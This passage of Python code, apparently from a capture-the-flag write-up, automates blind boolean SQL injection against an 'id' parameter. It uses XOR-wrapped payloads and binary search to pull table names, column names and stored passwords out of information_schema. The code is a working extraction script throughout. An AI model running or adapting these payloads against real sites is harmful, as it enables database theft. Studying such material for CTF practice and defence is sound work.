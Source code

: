 ```python
        while min < max:
            mid = (min + max) >> 1
            db_url = url + f"?id=1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),{str(i)},1))>{str(mid)})^1"
            r = requests.get(db_url)
            if "Click" in r.text:
                min = mid + 1
            else:
                max = mid
        mid = min
        tbname += chr(mid)
    return tbname

def get_CLlen(url):
    for i in range(1, 100):
        cl_url = url + f"?id=1^(length((select(group_concat(column_name))from(information_schema.columns)where(table_name)='F1naI1y'))={str(i)})^1"
#        print(db_url)
        r = requests.get(cl_url)
        if "Click" in r.text:
            return i
    return -1

def get_CLname(url, length):
    clname = ""
    for i in range(1, length + 1):
        min = 41
        max = 122
        while min < max:
            mid = (min + max) >> 1
            cl_url = url + f"?id=1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name)='F1naI1y'),{str(i)},1))>{str(mid)})^1"
            r = requests.get(cl_url)
            if "Click" in r.text:
                min = mid + 1
            else:
                max = mid
        mid = min
        clname += chr(mid)
    return clname

def get_PWlen(url):
    min = 1
    max = 1000
    while min < max:
        mid = (min + max) >> 1
        pw_url = url + f"?id=1^(length((select(group_concat(password))from(F1naI1y)))>{str(mid)})^1"
#        print(db_url)
        r = requests.get(pw_url)
        if "Click" in r.text:
            min = mid + 1
        elif "Error" in r.text:
            return -100
        else:
            max = mid
    mid = min
    return mid

def get_PWname(url, length):
    pwname = ""
    for i in range(170, length + 1): # 根据经验也可以只看后面的password
        min = 41
```